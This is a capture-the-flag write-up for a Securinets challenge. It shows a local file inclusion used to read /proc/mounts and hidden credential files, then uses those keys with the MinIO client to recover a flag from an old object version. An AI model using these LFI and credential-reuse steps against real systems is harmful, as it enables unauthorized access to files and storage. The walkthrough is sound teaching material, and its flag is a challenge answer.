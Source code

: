# F² Writeup

In this challenge, we’re given a parameter `f` that is vulnerable to **LFI**.  
At first glance, reading common files doesn’t reveal anything useful. But there’s a trick... (weel, not every LFI gives a flag directly)

Accessing the `/proc/mounts` file can sometimes give interesting insights into mounted volumes or filesystems:

👉 [https://f2.tekup-securinets.org/?f=/proc/mounts](https://f2.tekup-securinets.org/?f=/proc/mounts)

In the output, we notice some suspicious and uncommon files:

```
travler-gate  
travler-key  
travler-ep  
inventory-99
```

Let’s grab those files using LFI.

After fetching the `travler-gate`, `travler-key`, and `travler-ep`, we find what look like **access credentials** (possibly for a service).

Next, try sending a request to the IP used in the challenge:

```bash
curl -v http://185.91.127.50:13131
```

And here's the response:

```
< Server: MinIO
...
< HTTP/1.1 403 Forbidden
```

The `Server: MinIO` header tells us that we’re dealing with a MinIO instance — a self-hosted S3-compatible object storage service.

This confirms that the **access and secret keys** we found earlier belong to this MinIO service.

## Accessing MinIO

Download the MinIO client `mc` from the official site:  
👉 [https://min.io/download#/mc](https://min.io/download#/mc)

Then, configure it with the keys we found:

```bash
mc alias set traveler http://185.91.127.50:13131 ACCESS_KEY SECRET_KEY
```

Now, list the available buckets:

```bash
mc ls traveler
```

You should see a bucket named `inventory-99`.

## Step 4: Explore the Bucket

Let’s list the contents:

```bash
mc ls traveler/inventory-99
```

There’s a file named `item`. Download and inspect it:

```bash
mc cp traveler/inventory-99/item .
cat item
```

At first glance, it looks like just a list of inventory items... nothing special.

```
- id: 001
  name: Rusty Sword
  type: Weapon
  rarity: Common
  quantity: 1

- id: 002
  name: Healing Potion
  type: Consumable
  rarity: Uncommon
  quantity: 3

- id: 003
  name: Silver Key
  type: Quest Item
  rarity: Rare
  quantity: 1
```

But wait, one of the S3 features is versioning, and MinIO supports **versioning** on buckets. That means previous versions of the files might still be accessible.

Let’s list all versions of the `item` file:

```bash
mc ls --versions traveler/inventory-99
```

Copy and check the **first version** of the file:

```bash
mc cp --vid <version-id> traveler/inventory-99/item flag
cat flag
-> securinets{kk12121212121212121212kk}
```